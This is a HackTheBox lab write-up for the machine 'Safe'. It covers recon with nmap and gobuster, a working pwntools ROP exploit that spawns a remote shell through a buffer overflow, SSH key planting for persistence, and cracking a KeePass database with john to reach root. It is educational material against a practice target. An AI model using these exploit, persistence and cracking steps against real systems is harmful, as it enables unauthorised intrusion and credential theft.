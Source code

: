 ```yaml
---
title: Safe
date: 2024-01-03 17:41:00 +0100
categories: [Writeups, HackTheBox]
tags: [rop, buffer-overflow, keepass, john]
img_path: /assets/images/Safe
math: true
---
```



This machine will challenge our pwning skills on a binary hosted by the machine. After spawning a shell, there are some files in the user home directory which are related to KeePass. We can crack the file and get root's password. Let's dive in!


## Recognisement

First of all, let's send an ICMP packet to the victim machine, whose IP is `10.129.227.223`, to see if we have connection to the machine:

![ICMP packet](ping.png)

So we have connectivity, and furthermore, according to the TTL, we can think it is a Linux machine (which HTB tells us, but anyway :D).

Let's find out the open port Safe has. To do so, we can run:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.227.223 -oG allPorts
```

and this is the importante piece of output:

![open ports](open-ports.png)

We can see it has ports **22** (SSH), **80** (HTTP) and **1337** (we will see what this is). Now, we are going to gather some more information about the services running in those ports. We can run the following command:

```bash
sudo nmap -p22,80,1337 -sCV 10.129.227.223 -oN targeted
```

which will save the output in a file called `targeted`. We wait a couple of minutes and this is the result:

![nmap output](nmap-output.png)

So, all in all:

- Outdated version of SSH (vulnerable to username enumeration)
- HTTP webpage using Apache
- Still weird port 1337 that we will further investigate.

But first, let's go with the HTTP service. When we write the IP in the browser, we are just presented with de default Apache webpage:

![apache default](apache-default.png)

So nothing interesting there. Let's do some fuzzing, to try to get some other resources. This time we'll use gobuster:

```bash
gobuster dir -t 100 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.227.223/
```

but this finds nothing. Maybe we can fuzz PHP, HTML or TXT files? Let's give it a shot:

```bash
gobuster dir -t 100 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.227.223/ -x php,html,txt
```

But again, nothing useful. Let's take a closer look at the webpage. If we see the HTML source code we will see this:

![myapp-clue](myapp-clue.png)

So, apparently there is an app running on port 1337 whose code can be downloaded somehow? If we browse `http://10.129.227.223:1337` we definately can see an app is running:

![myapp](myapp.png)

The comment in the HTML says that it can be downloaded. Maybe the code is in `http://10.129.227.223/myapp`? If we go to that endpoint... Bingo! That downloads a file called `myapp`.


## Getting user shell. Pwning time!

Let's take a look at it. First of all, let's run this command to see what file that is

```bash
file myapp
```

![file command](file-myapp.png)

So it looks like a binary, dynamically linked and not stripped. This will be helpful to understand it when decompiling it. 

To get a better feeling about what the binary is doing, we can open it with **Ghidra**. After decompiling it, we see the main function. This is what it does:

![main function](main-function.png)

So it is executing the `uptime` command, and then is taking the user input and printing it. Notice that it is saving the user input in a 112-byte buffer, but it is not checking that the user input indeed fits in that buffer. If we run that command and send a lot of 'A's, this is what happens:

![bof](bof.png)

So it looks like it is vulnerable to Buffer Overflow. Let's run `checksec` to see which protections it has enabled:

```bash
checksec ./myapp
```

![checksec](checksec.png)

So we see that is has **NX** enabled, so it won't be as easy as writing some shell code in the stack and executing it. Maybe we can try to use some gadgets and functions that the binary already has and execute some code.

What I first took into account is that the code is already using the `system` function. Therefore, if I could get the string "/bin/sh" somehow, I could spawn a shell. Let's check the writable sections in the binary. We can do that using `radare2`.

```bash
radare2 myapp
[once inside radare2]
aaa
iS
```

![writable sections](writable-sections.png)

These are the writable sections of the binary. We could write the string "/bin/sh" in one of those. We could take, for example, **.data**. The easiest way to do that is to call the `gets` function (that the binary is using as well). This is the python script I wrote to exploit that and spawn a shell:

```python
#!/usr/bin/env python3

from pwn import *

binary_path = "../content/myapp"
ip = "10.129.227.223"
port = 1337
offset = 120


def getshell(r, elf, rop):
    POP_RDI = rop.find_gadget(["pop rdi", "ret"])[0]
    GETS = elf.sym["gets"]
    
    for section in elf.sections:
        if section.name == ".data":
            DATA = section["sh_addr"]

    SYSTEM = elf.sym["system"]

    payload = b"A"*offset
    payload += p64(POP_RDI)
    payload += p64(DATA)
    payload += p64(GETS)
    payload += p64(POP_RDI)
    payload += p64(DATA)
    payload += p64(SYSTEM)

    r.recv()
    r.sendline(payload)


def main():

    elf = ELF(binary_path)
    rop = ROP(binary_path)

    r = remote(ip, port)

    getshell(r, elf, rop)

    r.interactive()


if __name__ == "__main__":
    main()
```

This script will wait for you to write a command (using `gets`). If you write `sh`, it will spawn a shell, and you can continue writing commands.

![Shell spawn](bof-shell.png)

And there we go! To make things easy, I will copy my public SSH key and paste it in the path `/home/user/.ssh/authorized_keys`. Now, I can simply SSH into the user "user" account without entering a password.

![ssh access](ssh.png)

## Privilege escalation

If we cd into the user's home directory, we see these files:

![list files of user's home](ls-home.png)

So, a `MyPasswords.kdbx` (which is a Keepass password database 2.x KDBX) and some photos. Let's transfer them to my computer.

```bash
scp user@10.129.227.223:/home/user/IMG* .
scp user@10.129.227.223:/home/user/MyPasswords.kdbx .
```

Whenever we have a `.kdbx` file, we can try to bruteforce the **master key** of the passwords database. A cool thing that KeePass has is that you can unlock your file using both, a **master file** and a **master password**. Maybe one of those photos is the master file? 

We can use **keepass2john** to generate some hashes that we can later crack using john:

```bash
keepass2john MyPasswords.kdbx >> hashes.txt
for file in ./IMG*; do keepass2john -k $file MyPasswords.kdbx >> hashes.txt; done
```

And now we can use **rockyou.txt** to crack the hashes:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

After a couple of minutes...

![john crack](cracked.png)

So now we can open the passwords database file with the KeePass application. After some tries to guess which one of the images is the master key, I can open the file and get the "Root password". Copying it and executing `su root`, we get root access!!



I hope you found this useful!
